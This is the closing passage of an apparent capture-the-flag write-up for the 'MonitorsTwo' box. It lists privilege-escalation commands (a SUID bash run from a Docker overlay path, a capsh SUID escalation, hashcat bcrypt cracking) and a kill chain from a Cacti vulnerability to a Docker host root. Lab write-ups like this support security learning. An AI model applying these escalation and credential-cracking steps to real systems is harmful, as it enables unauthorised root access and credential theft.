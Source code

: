 ```bash
    41766   1208 -rwsr-sr-x   1 root     root      1234376 Mar 27  2022 /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/bin/bash
```

The second data overlay directory contains the modified binary. 

```bash
marcus@monitorstwo:~$ /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/bin/bash -p -i
bash-5.1# whoami
root
```


## Reflection

A reflection of what was learned throughout this box.

### Useful Commands

**MySQL: List contents of a single row well-formatted just for readability**: `select * from user_auth LIMIT 1 \G;`

**Capsh: Escalate privileges with SUID bit set**: `capsh --gid=0 --uid=0 --`

**Crack bcrypt hash ($2*$)**: `hashcat -a 0 -m 3200 hashes.txt wordlist.txt`

**Spawn a bash pty using script**: `script -O /dev/null -c /bin/bash`

### Killchain Summary

1. Take advantage of a vulnerability in Cacti to execute a payload landing a shell inside of the web applications docker container
2. Escalate privileges inside of the container through the misconfigured SUID bit set capsh binary  
3. Access the database server, dump the user_auth table, crack the bcrypt hashes, and crack marcus's password using hashcat
4. SSH to the target as marcus with the same cracked credentials in the user_auth table and read his mail on the server by the security team to identify a vulnerability in the Docker engine
5. Take advantage of the vulnerability by modifying the bash binary of the webapp container that we have root access with and add the SUID bit to /bin/bash
6. Find the mounted overlay directory for the webapp container and use the modified bash binary to escalate privileges on the host

### Misconfigurations

Some misconfigurations that led us to have root access.
- not patching vulnerabilities in software
- sending sensitive mail through the Linux mail utility and not an authenticated system
- reusing credentials for system access
- misconfigured binaries with the SUID bit set

### Summary of Exploits

#### CVE-2022-46169
